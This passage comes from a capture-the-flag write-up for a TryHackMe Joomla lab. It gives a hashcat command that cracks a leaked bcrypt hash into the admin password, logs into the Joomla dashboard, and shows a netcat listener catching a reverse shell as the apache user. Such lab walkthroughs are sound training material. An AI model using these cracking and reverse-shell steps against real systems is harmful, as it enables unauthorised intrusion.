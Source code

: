 This reveals the username `jonah` with email `jonah@tryhackme.com` and `bcrypt` hash `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`. If the hash can be cracked, either the Joomla administrator panel or SSH access may be possible.

## Cracking Jonah's hash

```bash
echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' > jonah.txt
hashcat -m 3200 jonah.txt /usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

The cracked password is `spiderman123`. `jonah`:`spiderman123` grants Joomla administrator access, but not SSH access.

![Pasted image 20210712014717](Pasted%20image%2020210712014717.png)

# Joomla Administrator Access

## Joomla Reverse Shell

Log into the Joomla dashboard at `/administrator/` with `jonah`'s credentials.

[This article](https://www.hackingarticles.in/joomla-reverse-shell/) describes how to obtain a reverse shell. Follow the instructions to receive a reverse shell as the `apache` user in the `/var/www/html` directory.

```bash
$ sudo nc -nlvp 80

listening on [any] 80 ...
connect to [10.6.31.77] from (UNKNOWN) [10.10.134.173] 55132
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
```
